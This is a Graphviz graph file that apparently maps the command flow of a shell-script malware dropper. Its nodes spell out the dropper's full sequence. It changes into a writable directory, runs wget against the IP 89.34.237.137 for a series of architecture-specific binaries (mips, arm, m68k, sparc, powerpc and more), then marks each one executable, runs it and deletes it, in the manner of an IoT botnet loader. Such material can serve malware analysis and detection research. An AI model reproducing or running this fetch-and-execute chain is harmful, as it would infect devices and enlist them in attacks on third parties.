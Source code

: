 digraph {
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 346 [label="||,"];
346 [label="rm jyq* "];
346 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 22 [label="||,"];
22 [label="wget http://89.34.237.137/jyqms "];
22 -> 24 [label=";,"];
24 [label="chmod +x jyqms "];
24 -> 26 [label=";,"];
26 [label="./jyqms "];
26 -> 28 [label=";,"];
28 [label="rm -rf jyqms "];
28 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 40 [label="||,"];
40 [label="wget http://89.34.237.137/jyqml "];
40 -> 42 [label=";,"];
42 [label="chmod +x jyqml "];
42 -> 44 [label=";,"];
44 [label="./jyqml "];
44 -> 46 [label=";,"];
46 [label="rm -rf jyqml "];
46 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 58 [label="||,"];
58 [label="wget http://89.34.237.137/jyq4t "];
58 -> 60 [label=";,"];
60 [label="chmod +x jyq4t "];
60 -> 62 [label=";,"];
62 [label="./jyq4t "];
62 -> 64 [label=";,"];
64 [label="rm -rf jyq4t "];
64 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 76 [label="||,"];
76 [label="wget http://89.34.237.137/jyq4l "];
76 -> 78 [label=";,"];
78 [label="chmod +x jyq4l "];
78 -> 80 [label=";,"];
80 [label="./jyq4l "];
80 -> 82 [label=";,"];
82 [label="rm -rf jyq4l "];
82 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 94 [label="||,"];
94 [label="wget http://89.34.237.137/jyq5l "];
94 -> 96 [label=";,"];
96 [label="chmod +x jyq5l "];
96 -> 98 [label=";,"];
98 [label="./jyq5l "];
98 -> 100 [label=";,"];
100 [label="rm -rf jyq5l "];
100 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 112 [label="||,"];
112 [label="wget http://89.34.237.137/jyq6l "];
112 -> 114 [label=";,"];
114 [label="chmod +x jyq6l "];
114 -> 116 [label=";,"];
116 [label="./jyq6l "];
116 -> 118 [label=";,"];
118 [label="rm -rf jyq6l "];
118 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 130 [label="||,"];
130 [label="wget http://89.34.237.137/jyq7l "];
130 -> 132 [label=";,"];
132 [label="chmod +x jyq7l "];
132 -> 134 [label=";,"];
134 [label="./jyq7l "];
134 -> 136 [label=";,"];
136 [label="rm -rf jyq7l "];
136 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 148 [label="||,"];
148 [label="wget http://89.34.237.137/jyqsh "];
148 -> 150 [label=";,"];
150 [label="chmod +x jyqsh "];
150 -> 152 [label=";,"];
152 [label="./jyqsh "];
152 -> 154 [label=";,"];
154 [label="rm -rf jyqsh "];
154 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 166 [label="||,"];
166 [label="wget http://89.34.237.137/jyqpc "];
166 -> 168 [label=";,"];
168 [label="chmod +x jyqpc "];
168 -> 170 [label=";,"];
170 [label="./jyqpc "];
170 -> 172 [label=";,"];
172 [label="rm -rf jyqpc "];
172 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 184 [label="||,"];
184 [label="wget http://89.34.237.137/jyq440 "];
184 -> 186 [label=";,"];
186 [label="chmod +x jyq440 "];
186 -> 188 [label=";,"];
188 [label="./jyq440 "];
188 -> 190 [label=";,"];
190 [label="rm -rf jyq440 "];
190 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 202 [label="||,"];
202 [label="wget http://89.34.237.137/jyqm68 "];
202 -> 204 [label=";,"];
204 [label="chmod +x jyqm68 "];
204 -> 206 [label=";,"];
206 [label="./jyqm68 "];
206 -> 208 [label=";,"];
208 [label="rm -rf jyqm68 "];
208 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 220 [label="||,"];
220 [label="wget http://89.34.237.137/jyqsprc "];
220 -> 222 [label=";,"];
222 [label="chmod +x jyqsprc "];
222 -> 224 [label=";,"];
224 [label="./jyqsprc "];
224 -> 226 [label=";,"];
226 [label="rm -rf jyqsprc "];
226 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 238 [label="||,"];
238 [label="wget http://89.34.237.137/jyq32 "];
238 -> 240 [label=";,"];
240 [label="chmod +x jyq32 "];
240 -> 242 [label=";,"];
242 [label="./jyq32 "];
242 -> 244 [label=";,"];
244 [label="rm -rf jyq32 "];
244 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 256 [label="||,"];
256 [label="wget http://89.34.237.137/jyq38 "];
256 -> 258 [label=";,"];
258 [label="chmod +x jyq38 "];
258 -> 260 [label=";,"];
260 [label="./jyq38 "];
260 -> 262 [label=";,"];
262 [label="rm -rf jyq38 "];
262 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 274 [label="||,"];
274 [label="wget http://89.34.237.137/jyq48 "];
274 -> 276 [label=";,"];
276 [label="chmod +x jyq48 "];
276 -> 278 [label=";,"];
278 [label="./jyq48 "];
278 -> 280 [label=";,"];
280 [label="rm -rf jyq48 "];
280 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 292 [label="||,"];
292 [label="wget http://89.34.237.137/jyq58 "];
292 -> 294 [label=";,"];
294 [label="chmod +x jyq58 "];
294 -> 296 [label=";,"];
296 [label="./jyq58 "];
296 -> 298 [label=";,"];
298 [label="rm -rf jyq58 "];
298 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 310 [label="||,"];
310 [label="wget http://89.34.237.137/jyq64 "];
310 -> 312 [label=";,"];
312 [label="chmod +x jyq64 "];
312 -> 314 [label=";,"];
314 [label="./jyq64 "];
314 -> 316 [label=";,"];
316 [label="rm -rf jyq64 "];
316 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 328 [label="||,"];
328 [label="wget http://89.34.237.137/jyq68 "];
328 -> 330 [label=";,"];
330 [label="chmod +x jyq68 "];
330 -> 332 [label=";,"];
332 [label="./jyq68 "];
332 -> 334 [label=";,"];
334 [label="rm -rf jyq68 "];
334 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 346 [label="||,"];
346 [label="rm jyq* "];
346 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 357 [label="||,"];
}
